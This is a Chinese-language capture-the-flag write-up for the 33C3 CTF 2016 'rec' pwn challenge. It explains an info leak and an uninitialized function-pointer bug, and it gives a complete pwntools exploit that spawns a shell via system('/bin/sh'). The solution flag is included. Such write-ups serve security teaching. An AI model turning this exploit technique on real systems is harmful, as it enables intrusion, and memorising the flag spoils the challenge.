 ```yaml
---
title: '[33C3 CTF 2016] rec 200'
author: bruce30262
tags:
  - pwn
  - 33C3 CTF 2016
categories:
  - write-ups
date: 2016-12-31 11:39:00
---
```

## Info  
> Category: pwn
> Point: 200
> Author: bruce30262 @ BambooFox

## Analyzing
32 bit ELF, 保護全開

程式選單:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
>
```

整理一下幾個較為重要的 function: 

* Take note: 輸入一個 note
* Read note: 印出剛剛輸入的 note
* Polish: 可以做 `sum` 運算
* Sign: 輸入一個數字，然後印說它是正數還是負數

首先會發現到 Read note 那邊怪怪的:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 0
Your note: 123
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 1
Your note:�VXV`�s��`XV     <-- WTF?
```
會印出亂碼是因為 take note 的時候，程式會將一個 stack address 當成 note 的 buffer。之後離開該 function 時，因為 function epilogue 的關係，程式會在該 stack address 上面塞入一些 (有用的) address。因此透過 read note，我們可以 leak 出 stack address 跟 text 段的 base address。

此外程式在 `sign` function 裡面有個邏輯漏洞:
```c
  if ( num <= 0 )
  {
    if ( num < 0 )
      v1 = (void (*)(void))puts_negative;
  }
  else
  {
    v1 = (void (*)(void))puts_positive;
  }
  v1();
```

對於正數和負數 `sign` function 都有做好處理，但是如果我們輸入 `0` 的話呢?

```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 5
0
[1]    40091 segmentation fault (core dumped)  ./rec
```
程式 crash 了。這是因為 `sign` 裡面沒有處理 `0` 的情形，導致程式沒有 assign function pointer 給 `v1`，進而讓程式執行到 `v1()` 時產生了 segmentation fault。

## Exploit

首先觀察一下 `sign` function 裡面 assign function pointer 時的組語:
```
0x56555d3b:  mov    eax,DWORD PTR [ebp-0x20]   <-- &v1 = ebp-0x20
0x56555d3e:  call   eax
```
可以看到，如果我們有辦法控制到 `[ebp-0x20]` 的值的話，我們就有把辦法控制到 `eax` 的值，進而控制程式的 control flow。

透過 gdb 我們還發現到 `sign` 這個 function 的 stack frame 比起其他的 function 都還要來的"高"( `ebp` 的值較低 )。因此如果要有辦法控制到 `v1`，我們必須想辦法在其他 function 裡面盡量"拉高" stack frame，進而控制到 `v1` 的值。

經過一連串的 fuzzing，我發現如果使用 Polish 的 `sum` 功能，我們可以藉由不斷的輸入數字來"拉高"程式的 stack frame，**原因是因為程式會不斷地將數字 push 到 stack 上**。透過這樣的方式，我們不但可以控制到 `v1` ( function pointer )，還可以控制到 function 的參數 !

因此總結一下思路:
1. 利用 take note 和 read note 來 leak text 段的 base address
2. 利用 Polish 的 `sum` 功能來控制 `sign` function 裡面的 function pointer 和 function 參數。
3. 我們首先將 function pointer 設成 `puts`，參數設成 `__libc_start_main@got` ( 這題因為是 FULL RELRO 的關係沒有 `.got.plt` )
4. 呼叫 `sign` function，數字輸入 `0`，讓程式執行 `puts(__libc_start_main@got)`
5. 得到 libc 的 base address 之後重複 step 2~4，這次將目標改成執行 `system("/bin/sh")`

Final exploit : ( 這題 libc 的資訊可以透過 [libc-database](https://github.com/niklasb/libc-database) 來獲得 )

```python exp_rec.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import numpy

HOST = "78.46.224.74"
PORT = 4127
ELF_PATH = "./rec"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def take_note(note):
    r.sendlineafter("> ", "0")
    r.sendlineafter("note: ", note)

def read_note():
    r.sendlineafter("> ", "1")

def polish_sum(nums):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Operator:", "S")
    for num in nums:
        print "adding:", num
        r.sendlineafter("Operand:", str(num))

    r.sendlineafter("Operand:", ".")

def sign(num):
    r.sendlineafter("> ", "5")
    r.sendline(str(num))

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    take_note("123")
    read_note()

    r.recvuntil("note: ")
    fptr_addr = u32(r.recv(4)) - 0x350 # where the function pointer be loaded
    text_base = u32(r.recv(4)) - 0x6fb
    puts = text_base + 0x520
    lsm_got = text_base + 0x2fe0
    puts_got = text_base + 0x2fd8
    
    log.success("fptr_addr: "+hex(fptr_addr))
    log.success("text_base: "+hex(text_base))

    nums = [i for i in xrange(0x63)] + [puts, lsm_got]
    polish_sum(nums)

    sign(0) # this will call puts(lsm_got)
    lsm_addr = u32(r.recv(4))
    #########################################
    #$ ./dump libc6-i386_2.24-3ubuntu2_amd64
    #offset___libc_start_main = 0x00018180
    #offset_system = 0x0003a8b0
    #offset_str_bin_sh = 0x15cbcf
    #########################################
    system_addr = lsm_addr + 0x22730 
    bin_sh = lsm_addr + 0x144a4f 
	
    log.success("lsm: "+hex(lsm_addr))
    log.success("system: "+hex(system_addr))
    log.success("bin_sh: "+hex(bin_sh))

    nums = [i for i in xrange(0x63)] + [numpy.int32(system_addr), numpy.int32(bin_sh)]
    polish_sum(nums)
    sign(0) # this time will call system("/bin/sh")
    
    r.interactive()
```

flag: `33C3_L0rd_Nikon_would_l3t_u_1n`  


